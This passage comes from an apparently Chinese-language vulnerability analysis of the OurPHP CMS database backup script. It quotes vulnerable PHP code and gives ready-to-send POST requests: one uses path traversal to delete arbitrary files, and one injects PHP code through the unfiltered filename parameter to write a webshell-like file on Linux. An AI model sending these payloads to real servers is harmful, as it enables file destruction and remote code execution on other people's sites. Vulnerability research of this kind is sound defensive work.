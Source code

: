 ```
POST /client/manage/ourphp_bakgo.php?framename=1

action=databackup&back_type=partsave&filedeled=1&dfile%5B%5D=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag&dir=..%2F..%2Ffunction%2Fbackup%2F2021060820
```



## 任意文件写入2（linux）

考虑到数据库备份这个功能中有许多对文件操作的函数，因此继续往下看，从618行开始：

```php
// 开始导出一页
$writefile_data = "<?php\r\nif(!defined('VERSION')){echo \"<meta http-equiv=refresh content='0;URL={$_POST[filename]}.php'>\";exit;}\r\n";

$tablearr=array();
for(@reset($_POST[fsqltable]);count($_POST[fsqltable])&&@list($key,$val)=@each($_POST[fsqltable]);) {
	$tablearr[]=$key;
}

for($i=$_POST[tabledumping];$i<count($tablearr);$i++){
	sqldumptable($tablearr[$i],$i,1);  //导出表
}

//结束最后文件
$data="echo '<center><BR><BR><BR><BR>完成。所有数据都已经导入数据库中。</center>'; exit; ?".">";
$writefile_data .= "$data";
writefile($writefile_data,"w");
```

可以看到`$_POST[filename]`直接拼接到了`$writefile_data`，没有经过任何的过滤。

跟进下面的`writefile`函数：

```php
		function writefile($data,$method='w'){
			global $fsqlzip,$_POST;;
			$file = "{$_POST[filename]}_pg{$_POST[page]}.php";
			$fp=fopen("$_POST[dir]/$file","$method");
			flock($fp,2);
			fwrite($fp,$data);
		}
```

可以看到存在一个任意文件写入，写入的文件名和内容都可控。只不过因为`$_POST[filename]`不仅在文件名中，也在写入的内容中，因此使得文件名存在特殊字符，在windows上不行，在linux上可以成功写入：

```
POST /client/manage/ourphp_bakgo.php?framename=1

action=databackup&back_type=partsave&dir=..%2F..%2Ffunction%2Fbackup%2F2021060820&filename='";phpinfo();//&page=1
```
